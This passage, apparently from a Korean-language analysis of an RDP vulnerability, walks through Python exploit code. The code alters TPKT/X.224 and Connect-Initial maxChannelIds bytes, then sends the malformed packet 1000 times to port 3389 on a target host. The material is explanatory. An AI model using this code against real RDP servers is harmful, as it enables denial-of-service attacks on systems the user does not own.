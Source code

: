 
바이트 변조

``` python
buf+=\"\\x03\\x00\\x00\\x08\" \# TPKT, Version 3, length 8

buf+=\"\\x02\\xf0\\x80\" \# ITU-T Rec X.224
```

**4. Connect-Initial영역의 targetParameters 필드 패킷 바이트 변조**

![](./image35.png)


변조

![](./image-6.1.2.png)

``` python
buf+=\"\\x01\\x01\\x04\\x01\\x01\\x01\\x01\\xff\" 

buf+=\"\\x30\\x19\\x02\\x04\\x00\\x00\\x00\\x00\"     \# maxChannelids
```

**5. 변조 패킷 전송 부분**

변조 패킷 덤프를 대상 서버로 RDP 기본 포트 3389를 향해 TCP 프로토콜
통신을 진행한다. 연결이 성사되면 변조 패킷 덤프를 전송한후 그에 대한
응답 값을 받은 후 연결이 종료된다.

``` python
HOST = sys.argv[1] # 사용자측 인자 값 (대상 호스트 입력)

PORT = 3389        # TCP/3389

for i in range(1000):

    # IPv4 주소 사용/TCP 프로토콜 통신

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect((HOST,PORT)) # 연결 수립

    print "sending: %d bytes" % len(buf)

    s.send(buf) #페이로드 전송

    rec = s.recv(100) # 대상 서버 응답 값

    print "received: %d bytes" % len(rec)

    s.close() # 연결 종료
```
